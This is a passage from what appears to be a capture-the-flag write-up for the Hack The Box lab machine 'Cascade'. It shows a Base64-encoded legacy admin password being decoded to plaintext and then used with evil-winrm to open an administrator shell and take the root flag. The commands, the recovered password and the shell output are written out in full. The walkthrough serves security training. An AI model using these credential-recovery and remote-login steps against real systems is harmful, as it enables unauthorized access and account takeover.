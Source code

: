The `cascadeLegacyPWD` field above reveals the Base64 Encoded Admin password
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d                      
baCT3r1aN00dles
```

###### `Grabbing Root Flag`
```
# evil-winrm -i 10.10.10.182 -u 'administrator' -p 'baCT3r1aN00dles'
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator

```

Grab Root Flag